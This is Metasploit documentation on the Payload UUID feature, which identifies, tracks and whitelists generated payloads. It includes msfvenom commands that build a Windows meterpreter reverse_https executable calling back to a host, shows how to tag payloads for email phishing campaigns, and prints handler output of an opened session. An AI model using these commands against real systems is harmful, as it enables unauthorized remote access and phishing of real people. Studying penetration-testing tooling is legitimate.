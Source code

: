 ```yaml
---
layout: post
title:  "Payload UUID"
date:   "2015-06-25 19:35:15 -0500"
categories: article
---
```


In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

### Specifying the UUID

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```

### Tracking the UUID

Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe

$ cat ~/.msf4/payloads.json
{
  "68017d72958c40f6": {
    "arch": "x86",
    "platform": "windows",
    "timestamp": 1435277049,
    "payload": "payload/windows/meterpreter/reverse_https",
    "datastore": {"AutoLoadStdapi":true,"AutoRunScript":"","AutoSystemInfo":true,"AutoVerifySession":true,"AutoVerifySessionTimeout":30,"EXITFUNC":"process","EnableStageEncoding":false,"EnableUnicodeEncoding":false,"HttpUnknownRequestResponse":"\u003Chtml\u003E\u003Cbody\u003E\u003Ch1\u003EIt works!\u003C/h1\u003E\u003C/body\u003E\u003C/html\u003E","IgnoreUnknownPayloads":false,"InitialAutoRunScript":"","LHOST":"127.1.1.1","LPORT":4444,"MeterpreterServerName":"Apache","MeterpreterUserAgent":"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)","OverrideRequestHost":false,"PAYLOADUUIDNAME":"EmailCampaign20150101","PayloadProxyPort":0,"PayloadProxyType":"HTTP","PayloadUUIDTracking":true,"PrependMigrate":false,"ReverseListenerBindPort":0,"SessionCommunicationTimeout":300,"SessionExpirationTimeout":604800,"SessionRetryTotal":3600,"SessionRetryWait":10,"StageEncoderSaveRegisters":"","StageEncodingFallback":true,"StagerRetryCount":10,"StagerURILength":0,"StagerVerifySSLCert":false,"VERBOSE":false},
    "name": "EmailCampaign20150101",
    "urls": [
  "/aAF9cpWMQPb-3f_cq1FoJA040uMw26kAnvroJdztpVzDrNpqbpT7t3DyYy0cR2TyQE87XxHgIOKiYwP2FJNlNjrBXWQNiGWtzUK1ueJ0DyFjCXmULVo_gGrvi"
]
}
}
```

Once this payload is launched, the output of the ```sessions -l -v``` command will show the UUID, whether or not the UUID is registered, and any locally-assigned name of the UUID:
```
msf exploit(handler) > run -j
[*] 127.0.0.1:36235 (UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z) Staging Native payload ...
[*] Meterpreter session 1 opened (127.1.1.1:4444 -> 127.0.0.1:36235) at 2015-06-25 17:12:40 -0700

msf exploit(handler) > sessions  -l -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: fang\hdm @ fang
      Tunnel: 127.1.1.1:4444 -> 127.0.0.1:36235 (127.0.0.1)
         Via: exploit/multi/handler
        UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z
   MachineID: 1fd541d2c4278e2d0c1b02f17f142f2b
     CheckIn: 1s ago @ 2015-06-25 17:12:47 -0700
  Registered: Yes - Name="EmailCampaign20150101"
  ```

### Whitelisting UUIDs

The ```~/.msf4/payloads.json``` file can also be used as a whitelist. This makes it possible to run a listener on a common port on a public IP address without the Metasploit Framework instance being flooded with bogus sessions. To enable whitelisting, set the ```IgnoreUnknownPayloads``` option to ```true``` in the handler instance. Any incoming request that does match both a registered Payload UUID and one of the pre-generated URLs will be ignored. The ```payloads.json``` file can be copied between Metasploit Framework instances and even hand-edited while the framework is running.

